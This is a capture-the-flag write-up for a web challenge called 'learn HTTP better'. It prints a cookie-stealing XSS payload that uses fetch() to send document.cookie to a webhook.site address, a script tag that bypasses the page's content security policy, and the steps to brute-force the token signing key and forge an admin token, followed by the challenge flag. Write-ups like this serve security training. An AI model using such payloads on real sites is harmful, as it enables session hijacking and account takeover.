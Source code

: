 # learn HTTP better
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Here there is a CSP which allows script with source same as host is allowed, we can formulate the javascript payload and pass the URL to js as the `src` ro the script.

```
HTTP/1.1 200 OK
Content-type: text/javascript
Content-length: 85

fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)
```

```
HTTP/1.1 200 OK
Content-type: text/html
Content-length: 267

<script src="http://localhost:5001/resp?body=HTTP%2F1.1%20200%20OK%0D%0AContent-type%3A%20text%2Fjavascript%0D%0AContent-length%3A%2085%0D%0A%0D%0Afetch%28%60https%3A%2F%2Fwebhook.site%2F7c0b4f46-d927-4d8e-8601-3d70d049fe4c%3F%24%7Bdocument.cookie%7D%60%29"></script>
```

![hook response](hook.png)

We get the token in the request, after bruting the signing key, we find it as `password`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{w0w_7hat_w4s_0ut_Of_th3_boX}`